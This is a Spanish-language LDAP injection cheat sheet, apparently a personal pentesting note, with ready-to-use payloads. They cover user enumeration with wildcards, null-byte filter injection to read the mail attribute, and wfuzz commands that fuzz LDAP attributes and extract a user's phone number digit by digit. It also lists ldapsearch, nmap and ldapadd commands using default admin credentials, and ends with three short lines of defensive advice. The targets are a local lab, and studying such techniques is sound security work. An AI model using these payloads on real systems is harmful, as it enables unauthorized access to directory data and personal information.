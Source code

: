 ```yaml
---

### 🗃️ **LDAP Injection Cheat Sheet**

---
```

---
#### 📝 **¿Qué es una inyección LDAP?**

Las inyecciones LDAP (Lightweight Directory Access Protocol) son un tipo de ataque en el que un atacante **inyecta comandos LDAP maliciosos** en campos de entrada web que interactúan con un servidor LDAP.  
Si la aplicación no valida adecuadamente la entrada, el atacante puede manipular las consultas LDAP para:  

- 🕵️ **Acceder a información confidencial** de usuarios o recursos.  
- ✏️ **Modificar datos**: agregar, eliminar o modificar usuarios y recursos.  
- 🚩 **Realizar operaciones maliciosas** en la red, como phishing o instalación de malware.  

---

### 💡 **Ejemplos de Ataques LDAP Injection**

#### 🔎 **Enumeración de usuarios:**
```http
user_id=o*&password=\*&login=1&submit=Submit
```
- **Indicador de éxito:** Código de respuesta **301**, lo que indica que el usuario existe.  
- **Nota:** Utiliza el comodín `*` para enumerar.  

#### 💥 **Inyección LDAP Básica:**
```http
user_id=omar)(mail=\*))%00&password=\*&login=1&submit=Submit
```
- **Objetivo:** Obtener información del atributo `mail` para el usuario `omar`.  
- **Indicador de éxito:** Respuesta HTTP exitosa o cambio en la respuesta.  

---

### 🚀 **Fuzzing de Atributos con Wfuzz**

#### 🔧 **Fuzzing de Atributos LDAP:**
```bash
wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=\*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
```
- **Uso de diccionario:** Prueba diferentes atributos para identificar posibles campos válidos.

---

#### ☎️ **Enumeración de Teléfonos:**
- **Primer número:**
  ```bash
  wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
  ```
- **Segundo número:**
  ```bash
  wfuzz -c --hh=550 -z range,0-9 -d 'user_id=fran)(telephoneNumber=5FUZZ*))%00&password=\*&login=1&submit=Submit' http://localhost:8888
  ```
- **Nota:** Repite el proceso para cada posición del número.  

---

### 🛠️ **Comandos Útiles para Interactuar con LDAP**

#### 🔍 **Búsqueda en el Servidor LDAP:**
```bash
ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'
```
- **Descripción:** Realiza una consulta LDAP para obtener información.  
- 💡 **Tip:** Puedes usar scripts de nmap para identificar argumentos válidos:
  ```bash
  sudo nmap --script ldap* -p 389 localhost
  ```

---

#### 📝 **Añadir Usuarios a LDAP:**
```bash
ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldiff
```
- **Descripción:** Añade un nuevo usuario usando un archivo LDIF.  
- **Archivo `newuser.ldiff`**:
  ```
  dn: cn=newuser,dc=example,dc=org
  objectClass: inetOrgPerson
  cn: newuser
  sn: user
  uid: newuser
  userPassword: password123
  ```
---

### ⚠️ **Aclaraciones Importantes:**
1. **Validación de entrada:** Evita el uso directo de la entrada del usuario en consultas LDAP.  
2. **Uso de caracteres especiales:** Asegúrate de escapar correctamente los caracteres peligrosos.  
3. **Monitorización continua:** Implementa alertas ante patrones sospechosos en el tráfico LDAP.  

---

💡 **Consejo:** Guarda esta cheat sheet en Obsidian para tener siempre a mano los comandos y técnicas. 🚀